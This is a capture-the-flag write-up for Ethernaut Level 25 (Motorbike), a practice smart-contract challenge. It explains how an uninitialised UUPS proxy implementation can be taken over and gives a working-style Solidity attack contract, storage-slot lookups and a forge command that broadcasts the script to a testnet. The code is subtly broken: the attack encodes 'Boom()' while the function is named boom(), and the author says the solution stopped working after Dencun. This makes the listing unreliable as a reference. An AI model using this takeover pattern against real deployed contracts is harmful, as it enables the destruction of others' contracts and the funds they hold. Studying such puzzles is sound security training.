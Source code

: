 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/25-motorbike.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 25 - Motorbike</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Solutions | Level 25 - Motorbike](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

<img src="../imgs/requirements/25-motorbike-requirements.webp" width="800px"/>

## 漏洞

### Dencun upgrade (Feb 2024)

NOTE: The "old" solution for this challenge is not working anymore since the Dencun upgrade. The issue comes from the new behavior of the `selfdestruct` opcode which doesn't remove the contract's bytecode unless the contract is created AND self-destructed in the same transaction. See [EIP6780](https://eips.ethereum.org/EIPS/eip-6780).

> <i>Contract Self Destructed, but was later reinitalized with new ByteCode</i>

However, according to this github thread, it seems that it is still doable:
https://github.com/OpenZeppelin/ethernaut/issues/701

I will update if I crack it. For information purposes, I have kept the old solution below.

### Old solution

In order to self-destruct the `Engine` contract, we need to upgrade it to a new implementation since there is no `selfdestruct()` in this one. We can call the `upgradeToAndCall()` function for that, but we first need to become the `upgrader` inside the `Engine` contract to pass the `_authorizeUpgrade()` access check.

```javascript
function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```

There is no way to do that by calling the Motorbike contract directly. But, we see that the Motorbike contract is using a delegatecall to initialize the Engine contract. This means that, as far as the Engine knows, `Engine::upgrader` hasn't been set yet (still `address(0)`), so we can call the `initialize()` function from our exploit contract directly.

Let's get the current Engine implementation address:

- In your Ethernaut browser console:

```javascript
await web3.eth.getStorageAt(
  instance,
  "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
  // => 0x000000000000000000000000239bcf976042946e51690c2de9fea5d017eb282c
  // => 0x239bcf976042946e51690c2de9fea5d017eb282c
);
```

- In Foundry using `forge`:

```java
address engine = address(
            uint160(
                uint256(
                    vm.load(
                        motorbikeInstance,
                        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
                    )
                )
            )
        );
```

Then, we can upgrade the Engine contract to a new implementation address with the `upgradeToAndCall()` function and call the `boom()` function to self-destruct it.

## 解答

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IEngine {
    function initialize() external;

    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable;
}

contract Bicycle {
    IEngine private immutable engine;

    constructor(address _engine) {
        engine = IEngine(_engine);
    }

    function attack() public {
        // 1. Initialize the engine contract
        engine.initialize();
        // 2. Upgrade the engine contract to a new implementation and kill it
        engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("Boom()")
        );
    }

    function boom() external {
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/25_Motorbike.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## 要点

- UUPS Proxies are better than the older EIP-1967 proxies but still need to be carefully implemented.
- Sensitive functions such as contract upgrades should be protected by access control.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
